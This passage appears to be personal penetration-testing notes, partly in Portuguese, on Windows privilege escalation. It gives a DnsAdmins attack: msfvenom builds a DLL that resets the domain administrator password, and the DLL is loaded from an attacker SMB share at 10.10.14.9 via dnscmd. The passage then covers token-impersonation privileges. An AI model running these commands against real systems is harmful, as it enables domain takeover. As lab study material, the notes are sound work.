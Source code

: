     Primeiro criamos a DLL com o msfvenom
    
    `msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -
    f dll > da.dll`
    
    Se colocar-mos a dll no windows muito provavelmente que o Windows Defender iria eliminar 
    
    `sudo smbserver.py share ./`
    
    Correr o comando 
    
    `cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.9\share\da.dll`
    
    Depois parar o serviço dns 
    
    `sc.exe stop dns`
    `sc.exe start dns`
    
    Na maquina linux 
    
    `sudo psexec.py megabank.local/administrator@10.10.10.169`
    

# Impersonation

- Impersonation Attacks
    
    The following are the `privileges` that are `required` for a `successful impersonation attack`:
    `SeAssignPrimaryToken` This allows a user to impersonate tokens using exploit
    tools such as rottenpotato.exe.
    `SeCreateToken` This allows a user to create an arbitrary token with
    administrative privileges.
    `SeImpersonatePrivilege`: This allows a user to create a process under the
    security context of another user typically with administrative privileges.
    
    `Whoami /priv`
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2032.png)
    
    - Token Impersonation
        
        Token impersonation attacks leverage specific `Windows privileges` such as
        `SeImpersonatePrivilege` to obtain an access token with administrative privileges
        that we can use to impersonate in order to elevate our privileges.
        